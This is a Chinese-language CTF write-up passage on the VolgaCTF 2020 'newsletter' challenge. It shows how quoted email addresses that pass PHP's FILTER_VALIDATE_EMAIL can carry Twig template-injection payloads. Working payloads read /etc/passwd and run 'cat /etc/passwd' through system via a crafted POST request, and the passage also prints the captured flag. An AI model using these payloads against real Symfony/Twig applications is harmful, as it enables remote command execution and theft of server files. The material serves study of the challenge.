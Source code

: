 1. FILTER_VALIDATE_EMAIL验证
2. 如何接收结果

第二个问题不难解决,直接用自己的vps接受就可以,第一个问题通过查询维基百科也可以构造出payload,但是payload却有长度限制,最多只能有64个字符,通常的twig ssti的payload是无法直接用的了,需要我们自己挖掘

https://stackoverflow.com/questions/19220158/php-filter-validate-email-does-not-work-correctly
https://en.wikipedia.org/wiki/Email_address



`python -m smtpd -n -c DebuggingServer 0.0.0.0:25`

以下是我挖掘发现的payload,最后还是没能做出来,原因是自己查询的版本和题目的版本不一样

```php

"{{app.request}}"@ccreater.top
"{{app.environment}}"%40ccreater.top  : prod
"{{app.request.request.get('name')}}"@[47.107.171.219]
email="{{render(controller(app.request.request.get('a')))}}"@ccreater.top&a=App\Controller\MainController::source


"{{render(controller(app.request.query.get(1),{'file':'flag'}))}}"@ccreater.top 1=Symfony\Bundle\FrameworkBundle\Controller::file
文件名最长只能4个,并没有读到flag
```


以下是wp提供的payload


https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt


```
email="{{'/etc/passwd'|file_excerpt(1,30)}}"@attacker.tld




POST /subscribe?0=cat+/etc/passwd HTTP/1.1
Host: newsletter.q.2020.volgactf.ru
Content-Type: application/x-www-form-urlencoded

email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

https://twig.symfony.com/doc/3.x/functions/constant.html
VolgaCTF_6751602deea2a308ab611eeef7a4e961
https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html?m=1

其中有一个filter_var来命令执行实在是让我惊讶

### NetCorp

这题挺简单的,但是我还是搞了好久,对jsp和题目的cve一点都不熟悉,搞得我写个payload都百度半天

